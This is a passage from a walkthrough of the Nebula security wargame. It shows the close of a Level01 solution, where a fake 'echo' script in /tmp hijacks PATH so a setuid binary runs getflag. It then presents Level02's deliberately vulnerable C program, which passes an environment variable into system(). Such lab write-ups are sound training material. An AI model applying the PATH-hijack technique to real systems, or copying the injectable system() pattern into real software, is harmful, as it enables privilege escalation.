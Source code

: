 And now create an *echo* file in */tmp/*, that will run *getflag* (and make it executable):

``` plain
level01@nebula:/tmp$ cat echo 
/bin/getflag
```

Now go back and run the *flag01* binary:

``` plain
level01@nebula:/home/flag01$ ./flag01 
You have successfully executed getflag on a target account
```

### Level02

There is a vulnerability in the below program that allows arbitrary programs to be executed, can you find it?

To do this level, log in as the level02 account with the password level02. Files for this level can be found in /home/flag02.

``` c
#include <stdlib.h>
#include <unistd.h>
#include <string.h>
#include <sys/types.h>
#include <stdio.h>

int main(int argc, char **argv, char **envp)
{
  char *buffer;

  gid_t gid;
  uid_t uid;

  gid = getegid();
  uid = geteuid();

  setresgid(gid, gid, gid);
  setresuid(uid, uid, uid);

  buffer = NULL;

  asprintf(&buffer, "/bin/echo %s is cool", getenv("USER"));
  printf("about to call system(\"%s\")\n", buffer);
  
  system(buffer);
}
```

Running this program outputs the following:

``` plain
level02@nebula:/home/flag02$ ./flag02 
about to call system("/bin/echo level02 is cool")
level02 is cool
```

